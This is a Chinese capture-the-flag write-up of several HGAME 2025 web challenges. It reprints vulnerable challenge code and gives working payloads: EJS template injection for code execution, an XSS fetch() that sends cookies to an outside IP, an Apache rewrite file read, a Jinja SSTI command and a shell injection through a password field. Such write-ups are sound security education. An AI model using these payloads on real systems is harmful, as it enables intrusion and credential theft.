+++
title = "hgame2025"
slug = "hgame2025"
description = "披着shi的新生赛"
date = "2025-02-06T13:48:14"
lastmod = "2025-02-06T13:48:14"
image = ""
license = ""
categories = ["赛题"]
tags = ["nodejs", "xss", "ssti"]
+++

看到大家都做了，来打着玩

## **Level 24 Pacman**





我找了有一会儿，不好找

## **Level 47 BandBomb**

稍微改改，自己起本地测试一下

```
npm init -y
npm install express multer ejs
```

然后目录结构是这样子



```js
// app.js
const express = require('express');
const multer = require('multer');
const fs = require('fs');
const path = require('path');
const port = 3000;
const app = express();

app.set('view engine', 'ejs');

app.use('/static', express.static(path.join(__dirname, 'public')));
app.use(express.json());

const storage = multer.diskStorage({
  destination: (req, file, cb) => {
    const uploadDir = 'uploads';
    if (!fs.existsSync(uploadDir)) {
      fs.mkdirSync(uploadDir);
    }
    cb(null, uploadDir);
  },
  filename: (req, file, cb) => {
    cb(null, file.originalname);
  }
});

const upload = multer({ 
  storage: storage,
  fileFilter: (_, file, cb) => {
    try {
      if (!file.originalname) {
        return cb(new Error('无效的文件名'), false);
      }
      cb(null, true);
    } catch (err) {
      cb(new Error('文件处理错误'), false);
    }
  }
});

app.get('/', (req, res) => {
  const uploadsDir = path.join(__dirname, 'uploads');
  
  if (!fs.existsSync(uploadsDir)) {
    fs.mkdirSync(uploadsDir);
  }

  fs.readdir(uploadsDir, (err, files) => {
    if (err) {
      return res.status(500).render('mortis', { files: [] });
    }
    res.render('mortis', { files: files });
  });
});

app.post('/upload', (req, res) => {
  upload.single('file')(req, res, (err) => {
    if (err) {
      return res.status(400).json({ error: err.message });
    }
    if (!req.file) {
      return res.status(400).json({ error: '没有选择文件' });
    }
    res.json({ 
      message: '文件上传成功',
      filename: req.file.filename 
    });
  });
});

app.post('/rename', (req, res) => {
  const { oldName, newName } = req.body;
  const oldPath = path.join(__dirname, 'uploads', oldName);
  const newPath = path.join(__dirname, 'uploads', newName);

  if (!oldName || !newName) {
    return res.status(400).json({ error: ' ' });
  }

  fs.rename(oldPath, newPath, (err) => {
    if (err) {
      return res.status(500).json({ error: ' ' + err.message });
    }
    res.json({ message: ' ' });
  });
});

app.listen(port, () => {
  console.log(`服务器运行在 http://localhost:${port}`);
});
```

```js
// mortis.ejs
<!DOCTYPE html>
<html lang="zh">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>文件上传</title>
</head>
<body>
    <h1>上传文件</h1>
    <form action="/upload" method="post" enctype="multipart/form-data">
        <input type="file" name="file" required>
        <button type="submit">上传</button>
    </form>

    <h2>已上传的文件</h2>
    <ul>
        <% files.forEach(file => { %>
            <li><%= file %></li>
        <% }); %>
    </ul>
</body>
</html>
```

然后上传文件发现确实是创建了目录并且上传成功了，但是就是访问不到，重命名确实可以但是也没啥感觉

```json
{
    "oldName": "1.txt",
    "newName": "3.txt"
}
```

回头好好看了看代码，感觉可以目录穿越把flag打印出来，测试一下，发现不成功，访问不了文件，并且不是热加载，看到`ejs`是模版引擎，可以进行模版注入，找篇文章复现一下

```js
// app.js
const express = require('express');
const path = require('path');

const app = express();

app.set('views', path.join(__dirname, 'views'));
app.set('view engine', 'ejs');

app.get('/', (req, res) => {
    res.render('index',req.query); 
});

const PORT = process.env.PORT || 3000;
app.listen(PORT, () => {
    console.log(`Server is running on http://localhost:${PORT}`);
});
```

```js
// index.ejs
<html>
<head>
    <title>Lab CVE-2022-29078</title>
</head>

<body>
<h2>CVE-2022-29078</h2>
<%= test %>
</body>
</html>
```






那现在就是只要把文件覆盖了就可以RCE了，我们知道文件为`/views/mortis.ejs`，我一直改包，发现上传文件哪里是自动锁定了在`uploads/`，终于发现在改名可以实现目录穿越

```json
{
    "oldName": "3.ejs",
    "newName": "../views/mortis.ejs"
}
```



成功覆盖了，但是这个文件上传上去会发现不能成功RCE

```js
<% global.process.mainModule.require('child_process').execSync('dir > ./public/test').toString() %>
```

访问`/static/test`

## **Level 69 MysteryMessageBoard**

先是弱密码

```
shallot\888888
```

一眼xss，

```
<script>alert(1)</script>

<script>fetch('http://156.238.233.9:9999/?a'+document.cookie)</script>
```

然后访问`/admin`，再回来刷新就可以拿到，但是很难拿到，经常X到自己，然后访问`/flag`，所以换种方法

```js
<script>
    var xhr = new XMLHttpRequest();
    xhr.open("POST", "http://127.0.0.1:8888/", true);
    xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr.send("comment="%2bdocument.cookie);
</script>
```

但是也很难拿到，稍微改了一下发包格式就不行，而且还会有靶机重置，服了

## **Level 38475 角落**

一点源码都没有，扫描看看有没有东西存在

```conf
# Include by httpd.conf
<Directory "/usr/local/apache2/app">
	Options Indexes
	AllowOverride None
	Require all granted
</Directory>

<Files "/usr/local/apache2/app/app.py">
    Order Allow,Deny
    Deny from all
</Files>

RewriteEngine On
RewriteCond "%{HTTP_USER_AGENT}" "^L1nk/"
RewriteRule "^/admin/(.*)$" "/$1.html?secret=todo"

ProxyPass "/app/" "http://127.0.0.1:5000/"
```

可以知道是阿帕奇，并且重写规则，带UA头可以进行任意文件读取，查找一下看看能不能把源码泄露了



继续去找文档发现[版本CVE](https://www.tenablecloud.cn/plugins/nessus/201198)



```
curl -X GET "http://node2.hgame.vidar.club:31443/admin/usr/local/apache2/app/app.py%3f" -H "User-Agent: L1nk/"
```

带个`?`就可以正确读取到了

```python
from flask import Flask, request, render_template, render_template_string, redirect
import os
import templates

app = Flask(__name__)
pwd = os.path.dirname(__file__)
show_msg = templates.show_msg


def readmsg():
        filename = pwd + "/tmp/message.txt"
        if os.path.exists(filename):
                f = open(filename, 'r')
                message = f.read()
                f.close()
                return message
        else:
                return 'No message now.'


@app.route('/index', methods=['GET'])
def index():
        status = request.args.get('status')
        if status is None:
                status = ''
        return render_template("index.html", status=status)


@app.route('/send', methods=['POST'])
def write_message():
        filename = pwd + "/tmp/message.txt"
        message = request.form['message']

        f = open(filename, 'w')
        f.write(message)
        f.close()

        return redirect('index?status=Send successfully!!')

@app.route('/read', methods=['GET'])
def read_message():
        if "{" not in readmsg():
                show = show_msg.replace("{{message}}", readmsg())
                return render_template_string(show)
        return 'waf!!'


if __name__ == '__main__':
        app.run(host = '0.0.0.0', port = 5000)
```

`/read`路由进行模版渲染，`/send`写入文件，然后主页面也要访问，不过这里检验了`{`，条件竞争解决这个问题，只要一瞬间没有检验到我们的`{`即可，所以在`/send`这里我们写两个包，`/read`这里写一个包









概率还是很高的

```
{{cycler.__init__.__globals__.__builtins__['__import__']('os').popen('cat /f*').read()}}
```

## **Level 25 双面人派对**

开局给了一个RE的附件，不做了，推荐看infernity的博客，我觉得他应该会更新的，我友链里面(webking)

## Level 21096 HoneyPot

先链接数据库，看到要RCE，`writeflag`来得到flag，想加表，结果失败了，不让加，那么漏洞位置就只有导入数据了，搜索`func`，看到可疑函数`ImportData`，其中有命令执行的部分，关键代码

```go
func ImportData(c *gin.Context) {
	var config ImportConfig
	if err := c.ShouldBindJSON(&config); err != nil {
		c.JSON(http.StatusBadRequest, gin.H{
			"success": false,
			"message": "Invalid request body: " + err.Error(),
		})
		return
	}

	if err := validateImportConfig(config); err != nil {
		c.JSON(http.StatusBadRequest, gin.H{
			"success": false,
			"message": "Invalid input: " + err.Error(),
		})
		return
	}

	logParams := map[string]string{
		"RemoteHost":     config.RemoteHost,
		"RemoteUsername": config.RemoteUsername,
		"RemoteDatabase": config.RemoteDatabase,
		"LocalDatabase":  config.LocalDatabase,
		"Timestamp":      time.Now().Format("2006-01-02 15:04:05"),
	}

	logBytes, _ := json.MarshalIndent(logParams, "", "  ")
	fmt.Printf("Import Parameters:\n%s\n", string(logBytes))

	config.RemoteHost = sanitizeInput(config.RemoteHost)
	config.RemoteUsername = sanitizeInput(config.RemoteUsername)
	config.RemoteDatabase = sanitizeInput(config.RemoteDatabase)
	config.LocalDatabase = sanitizeInput(config.LocalDatabase)
	config.RemotePassword = sanitizeInput(config.RemotePassword)
	// Connect Database
	if manager.db == nil {
		dsn := buildDSN(localConfig)
		db, err := sql.Open("mysql", dsn)
		if err != nil {
			c.JSON(http.StatusInternalServerError, gin.H{
				"success": false,
				"message": "Failed to connect to local database: " + err.Error(),
			})
			return
		}

		if err := db.Ping(); err != nil {
			db.Close()
			c.JSON(http.StatusInternalServerError, gin.H{
				"success": false,
				"message": "Failed to ping local database: " + err.Error(),
			})
			return
		}

		manager.db = db
	}

	if err := createdb(config.LocalDatabase); err != nil {
		c.JSON(http.StatusInternalServerError, gin.H{
			"success": false,
			"message": "Failed to create local database: " + err.Error(),
		})
		return
	}

	// 创建以时间戳命名的目录
	timestamp := time.Now().Format("20060102_150405")
	backupDir := filepath.Join("backups", timestamp)
	if err := os.MkdirAll(backupDir, 0755); err != nil {
		c.JSON(http.StatusInternalServerError, gin.H{
			"success": false,
			"message": "Failed to create backup directory: " + err.Error(),
		})
		return
	}

	// 创建SQL文件
	sqlFileName := fmt.Sprintf("%s_%s.sql", config.RemoteDatabase, timestamp)
	sqlFilePath := filepath.Join(backupDir, sqlFileName)
	sqlFile, err := os.Create(sqlFilePath)
	if err != nil {
		c.JSON(http.StatusInternalServerError, gin.H{
			"success": false,
			"message": "Failed to create SQL file: " + err.Error(),
		})
		return
	}
	defer sqlFile.Close()

	// 创建参数日志文件
	logFileName := fmt.Sprintf("%s_%s_params.json", config.RemoteDatabase, timestamp)
	logFilePath := filepath.Join(backupDir, logFileName)
	if err := os.WriteFile(logFilePath, logBytes, 0644); err != nil {
		fmt.Printf("Warning: Failed to save parameters log: %v\n", err)
	}

	dumpCmd := exec.Command("mysqldump",
		"-h", config.RemoteHost,
		"-u", config.RemoteUsername,
		"-p"+config.RemotePassword,
		config.RemoteDatabase)

	tmpfile, err := os.CreateTemp("", "mysqldump-*.sql")
	if err != nil {
		c.JSON(http.StatusInternalServerError, gin.H{
			"success": false,
			"message": "Failed to create temporary file: " + err.Error(),
		})
		return
	}
	defer os.Remove(tmpfile.Name())
	defer tmpfile.Close()

	writer := io.MultiWriter(sqlFile, tmpfile)
	dumpCmd.Stdout = writer
	dumpCmd.Stderr = os.Stderr

	if err := dumpCmd.Run(); err != nil {
		c.JSON(http.StatusInternalServerError, gin.H{
			"success": false,
			"message": "Failed to export database: " + err.Error(),
		})
		return
	}

	tmpfile.Sync()
	tmpfile.Seek(0, 0)

	importCmd := exec.Command("mysql",
		"-h", "127.0.0.1",
		"-u", localConfig.Username,
		"-p"+localConfig.Password,
		config.LocalDatabase)

	importCmd.Stdin = tmpfile
	importCmd.Stderr = os.Stderr

	if err := importCmd.Run(); err != nil {
		c.JSON(http.StatusInternalServerError, gin.H{
			"success": false,
			"message": "Failed to import data: " + err.Error(),
		})
		return
	}

	c.JSON(http.StatusOK, gin.H{
		"success": true,
		"message": fmt.Sprintf("Data imported successfully. SQL file saved at: %s", sqlFilePath),
	})
}
```



利用`exec.Command`进行命令执行，那我们把参数拼接到里面就可以了，不需要远程加载

```http
POST /api/import HTTP/1.1
Host: node1.hgame.vidar.club:30840
Origin: http://node1.hgame.vidar.club:30840
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Referer: http://node1.hgame.vidar.club:30840/
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Content-Length: 147

{"remote_host":"127.0.0.1","remote_port":"3306","remote_username":"test","remote_password":";/writeflag;#","remote_database":"test","local_database":"test"}
```

访问`/flag`

## **Level 21096 HoneyPot_Revenge**

CVE-2024-21096 mysqldump命令注⼊，回头有空再打

## **Level 60 SignInJava**

找到路由`/api/gateway`并且发现`beanName`过滤了`flag`

